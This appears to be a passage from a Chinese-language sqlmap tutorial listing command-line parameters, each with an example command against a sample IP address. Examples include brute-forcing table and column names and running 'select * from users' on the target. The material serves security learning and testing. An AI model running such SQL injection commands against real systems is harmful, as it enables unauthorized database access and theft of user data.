 

##### **—end 4 ：查看第四条** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —end 4



##### **—sql-query “select \* from users” ：执行语句** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —sql-query “select * from users”



##### **—common-columns ：暴力破解字段，**应用于两种情况：①无权限读取数据。②mysql<5.0 ，没有infomation_schema库 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —common-columns



##### **—common-tables ：暴力破解表** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —common-tables



## 十.其他参数 



##### **—batch ：自动选是**



> **python sqlmap.py -u** **“**http://59.63.200.79:8003/?id=1“ **—batch**



##### **—charset：强制字符编码**

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —charset=GBK



##### **—crawl：爬站深度** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —crawl=3



##### **—csv-del：指定csv文件的分隔符** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —csv-del=”;”



##### **—flush-session ：清空session** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —flush-session



##### **—force-ssl ：强制使用HTTPS** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —force-ssl

